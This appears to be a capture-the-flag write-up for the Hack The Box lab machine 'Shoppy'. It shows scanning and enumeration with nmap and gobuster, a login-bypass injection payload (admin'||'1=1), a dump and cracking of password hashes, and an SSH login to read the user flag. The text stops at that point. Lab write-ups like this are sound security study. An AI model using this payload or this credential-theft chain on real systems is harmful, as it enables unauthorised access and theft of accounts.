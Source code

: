
<h1 align=center>Shoppy</h1>

## Part 1 : Discovery
## Scanning
```sudo nmap -sVC -T4 -p- target_ip``` gives us the result : 
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e:5e:83:51:d9:9f:89:ea:47:1a:12:eb:81:f9:22:c0 (RSA)
|   256 58:57:ee:eb:06:50:03:7c:84:63:d7:a3:41:5b:1a:d5 (ECDSA)
|_  256 3e:9d:0a:42:90:44:38:60:b3:b6:2c:e9:bd:9a:67:54 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
|_http-server-header: nginx/1.23.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
This box is hosting a web application on port 80 called shoppy.htb. <br/>

This website is unreachable. We have to specifiy this machines' IP and domain into our local DNS Resolver.<br/>
- execute : ```sudo vi /etc/hosts/```
- insert : ``` target_ip  shoppy.htb```
- save and quit

## Investigating the website
We should discover if there are any subdomains or virtual hosts that are serving under the same ip

### Finding directories 
- execute ```gobuster dir -u http://shoppy.htb -w /usr/share/wordlists/dirb/big.txt``` to find directories under this domain<br/> result :
```
gobuster dir -u http://shoppy.htb -w /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shoppy.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/11/03 16:30:35 Starting gobuster in directory enumeration mode
===============================================================
/ADMIN                (Status: 302) [Size: 28] [--> /login]
/Admin                (Status: 302) [Size: 28] [--> /login]
/Login                (Status: 200) [Size: 1074]           
/admin                (Status: 302) [Size: 28] [--> /login]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]   
/exports              (Status: 301) [Size: 181] [--> /exports/]
/favicon.ico          (Status: 200) [Size: 213054]             
/fonts                (Status: 301) [Size: 177] [--> /fonts/]  
/images               (Status: 301) [Size: 179] [--> /images/] 
/js                   (Status: 301) [Size: 171] [--> /js/]     
/login                (Status: 200) [Size: 1074]               
                                                               
===============================================================
2022/11/03 16:33:12 Finished
===============================================================

```


### Finding Virtual Hosts
- execute ```gobuster vhost -u http://shoppy.htb -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt``` to find any active vhosts serving under this domain.<br/> result : <br/>
```
gobuster vhost -u http://shoppy.htb -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://shoppy.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/11/03 16:30:45 Starting gobuster in VHOST enumeration mode
===============================================================
Found: mattermost.shoppy.htb (Status: 200) [Size: 3122]
                                                       
===============================================================
2022/11/03 16:41:26 Finished
===============================================================
```
- We can see that there is a vhost called ```mattermost.shoppy.htb``` serving under this domain.
- We should insert this next to the line that we created at our local DNS Resolver.

## Exploiting.
We can see that there are some login and admin directories that opens a new page and asks user to login. We may bypass authentication via SQLI.
- go to http://shoppy.htb/login
- enter ```admin'||'1=1``` into username
This will bring us the admin page that we can search anything in the admin page. <br/>
- I have decided to use ```admin'||'1=1``` once again here to see if there are anything hidden in the Database.
- This gives us a download button which will download some creds about the users.
- Crack the hashes using hash crackers.
- This will give you the joshes' password.
- Now enter joshes' creds at mattermost.shoppy.htb.
- We can find that jaeger said josh to connect to the machine with given creds.
- Now we should form a connection via ssh to the target machine using the given creds.
### SSH connection
- execute ```ssh -l jaeger```
- enter the password given at mattermost.shoppy.htb
```
ssh -l jaeger 10.10.11.180
jaeger@10.10.11.180's password: 
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Nov  3 08:08:12 2022 from 10.10.14.221
jaeger@shoppy:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  ShoppyApp  shoppy_start.sh  Templates  user.txt  Videos

```
- execute ```cat user.txt``` to recover the user flag.
